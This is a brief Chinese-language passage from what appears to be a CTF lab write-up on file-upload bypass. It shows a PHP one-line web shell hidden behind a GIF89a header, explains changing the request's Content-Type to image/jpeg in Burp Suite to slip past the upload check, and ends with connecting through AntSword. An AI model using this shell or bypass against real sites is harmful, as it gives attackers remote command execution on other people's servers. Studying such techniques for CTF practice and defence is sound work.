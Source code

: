 

#### 实战流程

##### 构造木马文件

```
GIF89a
<script language="php">@eval($_POST['cmd']);</script>
```

##### 使用bp拦截并修改数据包

将文件类型改为：image/jpeg 即可，`$_file` 在接收文件时，通过判断HTTP`Request`中的`Content-Type`来判断文件内容

<img src="CTF.assets/image-20230513204920661.png" alt="image-20230513204920661" style="zoom:50%;" />

##### 最后使用蚁剑连接即可
